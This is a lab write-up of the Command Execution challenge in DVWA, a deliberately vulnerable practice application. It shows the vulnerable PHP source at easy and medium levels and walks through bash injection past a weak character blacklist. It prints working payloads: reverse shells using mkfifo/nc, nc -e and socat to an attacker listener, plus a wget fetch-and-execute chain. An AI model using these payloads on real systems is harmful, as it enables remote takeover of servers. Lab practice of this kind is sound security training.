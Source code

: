 # Command Execution

## Easy

### Exploit
This is a classic example of bash code injection. First examine the expected use case, (e.g. `192.168.56.1`) and obtain the following output.

```
PING 192.168.56.1 (192.168.56.1) 56(84) bytes of data.
64 bytes from 192.168.56.1: icmp_seq=1 ttl=64 time=0.152 ms
64 bytes from 192.168.56.1: icmp_seq=2 ttl=64 time=0.405 ms
64 bytes from 192.168.56.1: icmp_seq=3 ttl=64 time=0.585 ms

--- 192.168.56.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.152/0.380/0.585/0.179 ms
```

From this output, it's pretty clear the underlying PHP interpreter is probably `exec`ing something like `ping -c 3 ...`.

So, by simply following the `ping` with another command such delimited with either `;` or `&&`, we can get a shell. (e.g. `192.168.56.1;mkifio /tmp/f;cat /tmp/f|/bin/bash -i 2>&1 | nc 192.168.56.1 4444 > /tmp/f;rm /tmp/f` for a reverse shell, assuming we have a listener on the attacking machine at 192.168.56.1:4444) Note that we could have used just about any reverse shell - nc, bash, php, python, etc - provided it is supported by the OS.

### Code Analysis
We can see by looking at the below form HTML and the request in the network tab that we're sending two `application/x-www-form-urlencoded` key-value pairs, one of which is the IP address to ping.
```
<form name="ping" action="#" method="post">
	<input type="text" name="ip" size="30">
	<input type="submit" value="submit" name="submit">
</form>
```

And the corresponding php is pretty much exactly what we'd expect: raw `shell_exec`ing of the unsanitized input, which allows us to inject any `;` or `&&`-delimited `bash` command as illustrated above. Note here is the outer `if` condition; if we were to send this request using an external HTTP client, (e.g. curl), we'd still need to include the `submit` parameter in addition to the `ip` parameter.

```php
<?php 

if( isset( $_POST[ 'submit' ] ) ) { 

    $target = $_REQUEST[ 'ip' ]; 

    // Determine OS and execute the ping command. 
    if (stristr(php_uname('s'), 'Windows NT')) {  
     
        $cmd = shell_exec( 'ping  ' . $target ); 
        echo '<pre>'.$cmd.'</pre>'; 
         
    } else {  
     
        $cmd = shell_exec( 'ping  -c 3 ' . $target ); 
        echo '<pre>'.$cmd.'</pre>'; 
         
    } 
     
} 
?>
```
## Medium
If we try this same exploitation method after setting the level to medium, we receive no output. A reasonable assumption - confirmed by examining the source code - is that the underlying PHP script is escaping the delimiter characters `;` and `&&`. More specifically, `str_replace` is used to replace these delmiters with the empty string. Because we only see stdout, we don't see the errors that would arise when the PHP interpreters attempts to run the command after it has been stripped of the aforementioned delimiters.

### Code Analysis
```php
<?php 

if( isset( $_POST[ 'submit'] ) ) { 

    $target = $_REQUEST[ 'ip' ]; 

    // Remove any of the charactars in the array (blacklist). 
    $substitutions = array( 
        '&&' => '', 
        ';' => '', 
    ); 

    $target = str_replace( array_keys( $substitutions ), $substitutions, $target ); 
     
    // Determine OS and execute the ping command. 
    if (stristr(php_uname('s'), 'Windows NT')) {  
     
        $cmd = shell_exec( 'ping  ' . $target ); 
        echo '<pre>'.$cmd.'</pre>'; 
         
    } else {  
     
        $cmd = shell_exec( 'ping  -c 3 ' . $target ); 
        echo '<pre>'.$cmd.'</pre>'; 
         
    } 
} 

?>
```

### Exploit
So, how do we overcome this? By using backticks or `$()`, we can run a command BEFORE the ping is executed. We are still somewhat limited as we can't include the `;` or `&&` delimiters, but we do have a few options. Here are a few examples of very simple reverse shells which would work (assuming we have a listener on the attacking machine 192.168.56.1:4444).

1. `$(nc 192.168.56 4444 -e /bin/bash)`
2. `$(socat TCP4:192.168.56.1:4444 exec:"/bin/bash")`

Note that - using the first example - now the PHP interpreter sees `shell_exec('ping -c 3 $(nc 192.168.56 4444 -e /bin/bash)');`. Obviously, `ping` would not know what to make of the output of this subcommand, however the subcommand won't return until we close the reverse shell so it's not a problem.

I'm running DVWA on Metasploitable 2, hence the presence of `nc` and `socat`. In the real world it's unlikely that these tools would be installed; in this case, simply send 2 commands. In this case the ping will error after the subcommand returns, however it won't matter because the subcommand will have already completed its task (e.g. downloaded or executed the file).

1. Download a script (bash,php,python) or executable (exe,elf,etc)
   * e.g. `$(wget 192.168.56.1:80/reverse-shell-scripts/f -P /tmp/)`
2. Execute the script
   * e.g. `$(/tmp/f)`
